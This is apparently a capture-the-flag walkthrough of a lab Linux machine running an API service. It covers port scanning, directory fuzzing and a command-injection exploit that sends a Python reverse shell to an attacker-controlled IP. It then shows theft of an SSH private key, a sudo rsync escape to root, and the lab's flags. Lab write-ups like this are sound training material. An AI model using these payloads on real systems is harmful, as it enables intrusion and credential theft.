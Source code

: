 # Linux Machine

## Machine Info



## Ports Scan

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.200.150.152

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 20:09 CEST
Nmap scan report for 10.200.150.152
Host is up (0.058s latency).
Not shown: 65511 closed tcp ports (reset), 22 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58
Service Info: Host: ip-10-200-150-152.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Breach

The default page give this page

<figure><img src="../../../.gitbook/assets/image (388).png" alt=""><figcaption></figcaption></figure>

An attacker could enumerate the paths with a fuzzing tool like Gobuster

{% code overflow="wrap" %}
```
gobuster dir -u http://10.200.150.152/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -b 503,404
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (389).png" alt=""><figcaption></figcaption></figure>

In this way an attacker has these 3 new paths

```
/docs                 (Status: 200) [Size: 931]
/api                  (Status: 200) [Size: 59]
/redoc                (Status: 200) [Size: 891]
```

This is a API service.

The `/api` page shows a version for the service.

<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

The /redoc page shows the service which running in the server.

<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>



### Command Injection

This version is vulnerable to RCE, inject command to establish a Reverse Shell.

{% embed url="https://huntr.com/bounties/32c2c9b1-54cc-46fc-9261-b01fe3b5ede4" %}

{% code overflow="wrap" %}
```bash
curl -v http://10.200.150.152/api/tools -H 'Content-Type: application/json' -d '{"filename":"CommandInjection","dependencies":[],"content":"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.250.1.6\",8899));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"}'
```
{% endcode %}

```
nc -lnvp 8899
```

<figure><img src="../../../.gitbook/assets/image (392).png" alt=""><figcaption></figcaption></figure>



### Lateral Movement

An attacker which made access to the system can steal the `id_rsa` file in the scott's directory.

<figure><img src="../../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

Copying this key an attack can access via SSH using this Private Key

```bash
chmod 600 id_rsa
ssh -i id_rsa scott@10.200.150.152
```



### Machine Flag

As user machine an attacker can steal the machine flag

```bash
cat /user.txt

THM{02e4b6e8-1c95-4bb3-b055-871dca86fe46}
```



## Privilege Escalation

### Insecure Sudo configuration

An attacker after enumerated the Scott permission can exploit this misfoncifguration to obtain root access to the machine.

```bash
sudo -l

Matching Defaults entries for scott on lin3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User scott may run the following commands on lin3:
    (ALL) NOPASSWD: /usr/bin/rsync
```

An attacker could use this rsync insecure configuration to obtain root access.

```bash
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

<figure><img src="../../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>



### Machine flag

An attacker with root access could steal the root machine flag

```bash
cat /root/root.txt

THM{04bf30f1-9745-4459-b19c-e9159e6d3746}
```

